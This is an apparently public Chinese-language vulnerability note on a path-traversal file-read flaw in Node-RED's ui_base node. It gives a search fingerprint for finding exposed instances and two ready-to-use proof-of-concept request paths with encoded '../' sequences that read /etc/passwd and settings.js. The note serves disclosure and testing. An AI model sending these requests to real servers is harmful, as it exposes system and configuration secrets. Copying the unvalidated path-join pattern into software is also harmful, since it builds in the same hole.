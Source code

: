 # Node-RED ui_base 任意文件读取漏洞

## 漏洞描述

Node-RED 在/nodes/ui_base.js中，URL与'/ui_base/js/*'匹配，然后传递给path.join，

缺乏对最终路径的验证会导致路径遍历漏洞，可以利用这个漏洞读取服务器上的敏感数据，比如settings.js

## 漏洞影响

<a-checkbox checked>Node-RED</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Node-RED"</a-checkbox></br>

## 漏洞复现

访问页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210701185722667.png)



验证POC

```plain
/ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
/ui_base/js/..%2f..%2f..%2f..%2fsettings.js
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210701185812622.png)



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210704171045540.png)